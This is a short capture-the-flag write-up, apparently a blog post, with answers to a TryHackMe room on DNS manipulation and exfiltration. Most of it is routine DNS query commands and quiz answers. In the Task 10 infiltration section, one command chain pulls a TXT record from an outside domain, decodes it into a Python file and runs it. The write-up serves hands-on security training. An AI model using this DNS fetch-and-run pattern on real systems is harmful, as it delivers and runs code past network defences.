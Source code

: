 ```yaml
---
layout: post
title: Tryhackme Room - DNS Manipulation
---
```


Room: [DNS Manipulation](https://tryhackme.com/room/dnsmanipulation)

# Task 4: What is DNS?
### If you were on Windows, what command could you use to query a txt record for 'youtube.com'? 

```bash
nslookup -type=TXT domaintosearch.com 
```

### If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

```bash
dig domaintosearch.com txt
```

### AAAA stores what type of IP Address along with the hostname?

```bash
IPv6
```

### Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

```bash
nay
```

### What DNS Record provides a domain name in reverse-lookup? (Research)

```bash
PTR
```


### What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)
- in your Linux terminal enter the following command replacing the IP of interest

```bash
host IP_ADDRESS
```
# Task 5 What is DNS Exfiltration? 
### What is the maximum length of a DNS name?
Check this [article](https://en.wikipedia.org/wiki/Domain_Name_System)

# Task 7 : Exfiltration Practice
- login with SSH provided 

# Task 10 : Infiltration Practice
- Read the TASK file carefully, you will thank me later, spent time on this ... 

```bash
 nslookup -type=txt REDACTED.badbaddoma.in |grep "Ye" |cut -d \" -f2 |base58 -d |base64 -d > decoded.py

 python3 decoded.py
 

```
